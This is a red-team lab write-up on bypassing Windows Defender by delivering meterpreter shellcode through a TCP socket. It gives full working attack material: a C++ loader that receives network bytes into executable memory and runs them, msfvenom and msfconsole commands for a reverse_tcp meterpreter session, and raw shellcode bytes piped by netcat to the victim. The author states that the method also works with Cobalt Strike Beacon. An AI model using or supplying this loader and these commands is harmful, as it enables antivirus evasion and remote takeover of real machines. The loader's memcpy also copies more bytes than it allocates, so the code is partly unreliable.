


# Bypassing Windows Defender: One TCP Socket Away From Meterpreter and Beacon Sessions

## Context

If you've tried executing an out of the box meterpreter payload on the box with Windows Defender, you know it may get picked up right away as can be seen in the below gif:


This quick lab shows how I was able to execute the off the shelf meterpreter payload against the latest Windows Defender \(7th of May at the time of writing\) by delivering the shellcode over a TCP socket.


**Works with Cobalt Strike Beacon**  
The demo uses metasploit's meterpreter payload, but I have tested this technique with Cobalt Strike beacon and it also bypasses the Windows Defender.


## Overview

The technique that allowed me to bypass Windows Defender is simple:

* Victim machine \(10.0.0.7\) opens up a listening TCP socket on on port 443 \(or any other\)
* Socket on the victim machine waits for incoming shellcode
* Attacking machine \(10.0.0.5\) connects to the victim socket and sends the shellcode as binary data
* Victim machine receives the shellcode, allocates executable memory and moves the shellcode there
* Victim machine executes the shellcode received over the network and initiates meterpreter \(or cobalt strike beacon\) second stage download
* Attacking machine serves the stage and catches the shell

## Execution

Let's write, compile a simple PoC C++ program \(see [Code](bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon.md#code) section\) that will do all of the steps explained in the overview section.

Let's execute it on the victim machine and check if the socket on port 443 has been opened:


```csharp
netstat -nat | findstr /i listen | findstr /i 443
```



Let's generate a staged meterpreter payload and output it to C format:


```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c > meterpreter.c
```




Let's setup an msf handler to catch the meterpreter session on the attacking machine:


```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```




We can now take the shellcode from the C file and echo it out as a binary data, pipe it to the victim machine \(where a TCP socket is listening on 443\) via netcat:


```bash
echo -e "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5" | nc 10.0.0.7 443
```


We are now ready to execute the attack. Below shows all of the above in action:

1. Cmd shell in the middle of the screen opens the TCP socket \(port 443\) on the victim machine
2. Windows Defender below the cmd shell shows the signatures are up to date
3. Top right - msfconsole is waiting and ready to send the second stage from the attacking system
4. Bottom right - attacker sends the shellcode to the victim over the wire via netcat
5. Top right - msfconsole serves the second stage to the victim and establishes the meterpreter session


## Conclusion

Why this works? I can only speculate. I am a huge fan of Windows Defender and I think it is doing an amazing job at catching evil and I am sure this will be caught very soon.

## Code

```cpp
#include "pch.h"
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ws2_32.lib")

int main()
{
	LPWSADATA wsaData = new WSAData();
	ADDRINFOA *socketHint = new ADDRINFOA();
	ADDRINFOA *addressInfo = new ADDRINFOA();
	SOCKET listenSocket = INVALID_SOCKET;
	SOCKET clientSocket = INVALID_SOCKET;
	CHAR bufferReceivedBytes[4096] = {0};
	INT receivedBytes = 0;
	PCSTR port = "443";

	socketHint->ai_family = AF_INET;
	socketHint->ai_socktype = SOCK_STREAM;
	socketHint->ai_protocol = IPPROTO_TCP;
	socketHint->ai_flags = AI_PASSIVE;

	WSAStartup(MAKEWORD(2, 2), wsaData);
	GetAddrInfoA(NULL, port, socketHint, &addressInfo);

	listenSocket = socket(addressInfo->ai_family, addressInfo->ai_socktype, addressInfo->ai_protocol);
	bind(listenSocket, addressInfo->ai_addr, addressInfo->ai_addrlen);
	listen(listenSocket, SOMAXCONN);
	std::cout << "Listening on TCP port " << port << std::endl;

	clientSocket = accept(listenSocket, NULL, NULL);
	std::cout << "Incoming connection..." << std::endl;
	
	receivedBytes = recv(clientSocket, bufferReceivedBytes, sizeof(bufferReceivedBytes), NULL);
	if (receivedBytes > 0) {
		std::cout << "Received shellcode bytes " << receivedBytes << std::endl;
	}
	
	LPVOID shellcode = VirtualAlloc(NULL, receivedBytes, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	std::cout << "Allocated memory for shellocode at: " << shellcode << std::endl;
	
	memcpy(shellcode, bufferReceivedBytes, sizeof(bufferReceivedBytes));
	std::cout << "Copied shellcode to: " << shellcode << std::endl << "Sending back meterpreter session...";
	((void(*)()) shellcode)();
	
	return 0;
}
```

## References




